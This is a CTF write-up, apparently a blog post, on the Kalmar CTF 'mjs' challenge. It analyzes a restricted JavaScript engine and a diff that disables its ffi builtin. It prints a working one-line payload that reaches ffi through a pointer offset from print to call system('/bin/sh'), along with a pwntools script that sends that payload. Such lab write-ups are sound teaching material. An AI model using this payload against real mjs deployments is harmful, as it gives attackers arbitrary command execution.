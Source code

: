 ```yaml
---
title: "Kalmar CTF mjs"
tags: CTF Browser
style: fill
color: warning
comments: true
description: kalmar ctf web browser exploitation challenge
---
```


# mjs
This web browser challenge provides a github repository, which can be found [here](https://github.com/cesanta/mjs), some browser binary and scripts, and a docker file.

### Remark
This was my first web browser exploitation. It includes, but not limited to, binary, javascript, and engine knowledge.
It took a bit to figure out the inner structures, how they worked together, and where to look at. 
However, once I figured out where to look at, the challenge became pretty straight forward and even seemed easy.

## Analysis
This challenge seems to be using a restricted javascript engine to restrict API calls, so I took a look at the repository to see which calls are allowed.
These are the API calls I can utilize. 
```javascript
print(arg1, arg2, ...);
load('file.js', obj);
die(message);
let value = JSON.parse(str);
let str = JSON.stringify(value);
let proto = {foo: 1}; let o = Object.create(proto);
'some_string'.slice(start, end);
'abc'.at(0);
'abc'.indexOf(substr[, fromIndex]);
chr(n);
let a = [1,2,3,4,5]; a.splice(start, deleteCount, ...);
let s = mkstr(ptrVar, length);
let s = mkstr(ptrVar, offset, length, copy = false);
let f = ffi('int foo(int)');
gc(full);
```

Unzipping the challenge file gives a python code that runs on the server that takes in user input and opens a subprocess ```./mjs``` and executes the input as a javascript code.

The usage of the mjs binary locally looks like:
```bash
./mjs ./test.js
```
where test.js is the javascript file that I want to execute locally.
So if my test.js looks like this:
```javascript
function hello() {
    print("hello world");
}

hello();
1;
```
Then the output will look like:
```bash
hello world
1
```

So I pretty much can execute arbitrary codes on the server as long as they comply with the restrictive engine/within the API list.

Taking a look at ```diff.patch```, it gives a pretty interesting info.
```markdown
diff --git a/Makefile b/Makefile
index d265d7e..d495e84 100644
--- a/Makefile
+++ b/Makefile
@@ -5,6 +5,7 @@ BUILD_DIR = build
 RD ?= docker run -v $(CURDIR):$(CURDIR) --user=$(shell id -u):$(shell id -g) -w $(CURDIR)
 DOCKER_GCC ?= $(RD) mgos/gcc
 DOCKER_CLANG ?= $(RD) mgos/clang
+CC = clang
 
 include $(SRCPATH)/mjs_sources.mk
 
@@ -81,7 +82,7 @@ CFLAGS += $(COMMON_CFLAGS)
 # NOTE: we compile straight from sources, not from the single amalgamated file,
 # in order to make sure that all sources include the right headers
 $(PROG): $(TOP_MJS_SOURCES) $(TOP_COMMON_SOURCES) $(TOP_HEADERS) $(BUILD_DIR)
-	$(DOCKER_CLANG) clang $(CFLAGS) $(TOP_MJS_SOURCES) $(TOP_COMMON_SOURCES) -o $(PROG)
+	$(CC) $(CFLAGS) $(TOP_MJS_SOURCES) $(TOP_COMMON_SOURCES) -o $(PROG)
 
 $(BUILD_DIR):
 	mkdir -p $@
diff --git a/src/mjs_builtin.c b/src/mjs_builtin.c
index 6f51e08..36c2b43 100644
--- a/src/mjs_builtin.c
+++ b/src/mjs_builtin.c
@@ -137,12 +137,12 @@ void mjs_init_builtin(struct mjs *mjs, mjs_val_t obj) {
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_load));
   mjs_set(mjs, obj, "print", ~0,
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_print));
-  mjs_set(mjs, obj, "ffi", ~0,
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_call));
-  mjs_set(mjs, obj, "ffi_cb_free", ~0,
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_cb_free));
-  mjs_set(mjs, obj, "mkstr", ~0,
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_mkstr));
+  /* mjs_set(mjs, obj, "ffi", ~0, */
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_call)); */
+  /* mjs_set(mjs, obj, "ffi_cb_free", ~0, */
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_cb_free)); */
+  /* mjs_set(mjs, obj, "mkstr", ~0, */
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_mkstr)); */
   mjs_set(mjs, obj, "getMJS", ~0,
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_get_mjs));
   mjs_set(mjs, obj, "die", ~0,
@@ -151,8 +151,8 @@ void mjs_init_builtin(struct mjs *mjs, mjs_val_t obj) {
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_do_gc));
   mjs_set(mjs, obj, "chr", ~0,
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_chr));
-  mjs_set(mjs, obj, "s2o", ~0,
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_s2o));
+  /* mjs_set(mjs, obj, "s2o", ~0, */
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_s2o)); */
 
   /*
    * Populate JSON.parse() and JSON.stringify()
diff --git a/src/mjs_exec.c b/src/mjs_exec.c
index bd48fea..24c2c7c 100644
--- a/src/mjs_exec.c
+++ b/src/mjs_exec.c
@@ -835,7 +835,7 @@ MJS_PRIVATE mjs_err_t mjs_execute(struct mjs *mjs, size_t off, mjs_val_t *res) {
 
           *func = MJS_UNDEFINED;  // Return value
           // LOG(LL_VERBOSE_DEBUG, ("CALLING  %d", i + 1));
-        } else if (mjs_is_string(*func) || mjs_is_ffi_sig(*func)) {
+        } else if (mjs_is_ffi_sig(*func)) {
           /* Call ffi-ed function */
 
           call_stack_push_frame(mjs, bp.start_idx + i, retval_stack_idx);
```

The author commented out calls to mjs_set with ```ffi``` argument.

I looked up ffi and it gave me: Detailed info [here](https://hackage.haskell.org/package/threepenny-gui-0.9.4.0/docs/Foreign-JavaScript.html#:~:text=A%20JavaScript%20foreign%20function%20interface,used%20internally%20by%20the%20Graphics.)
```
"This module implements a web server that communicates with a web browser and allows you to execute arbitrary JavaScript code on it."
```

So my idea was, to pop a shell, I would need to call ```ffi``` to run C code and execute ```system```.

### Dynamic
I started interacting with mjs with gdb. 
Since I could call print, I can print addresses of functions like:
```javascript
print(print);
```
And within gdb, print is mjs_print and ffi is mjs_ffi_call, I figured out their actual names by referencing the souce in git repository.

I cannot call ffi directly, but I can call ffi using ```(print + offset)```, which I believe is the intended vuln. And I can calculate offset using gdb.

## Exploitation
The explotation is fairly simple, as we only have to call ffi using the right offset and the right calling convention, which was a bit tricky to figure out.

But locally, we just need one line:
```python
(print + 0x6ab0)('int system(char *)')('/bin/sh');
```

And for remote, we just supply "EOF" at the end to run.
```python
#!/usr/bin/python3
from pwn import *
context.log_level='debug'
context.arch='amd64'
#context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
p=remote('127.0.0.1', 10002)
ru 		= lambda a: 	p.readuntil(a)
r 		= lambda n:		p.read(n)
sla 	= lambda a,b: 	p.sendlineafter(a,b)
sa 		= lambda a,b: 	p.sendafter(a,b)
sl		= lambda a: 	p.sendline(a)
s 		= lambda a: 	p.send(a)
# gdb.attach(p)

sla('End with "EOF":\n', "print((print + 0x6ab0)('int system(char *)')('/bin/sh'));\nEOF")

p.interactive()
```
One line is all we need. 

## Notes
The exploitation logic isn't that complex. To solve this challenge, I had to learn some basic javascript and what to expect in terms of how the server behaves relating to my requests- which I believe is the fundamentals of web browser exploitation.

I think this was a fairly neat challenge for beginners of web browser exploitation. It also reminded me of seccomp and sandbox escaping challenges.

Thank you!

079
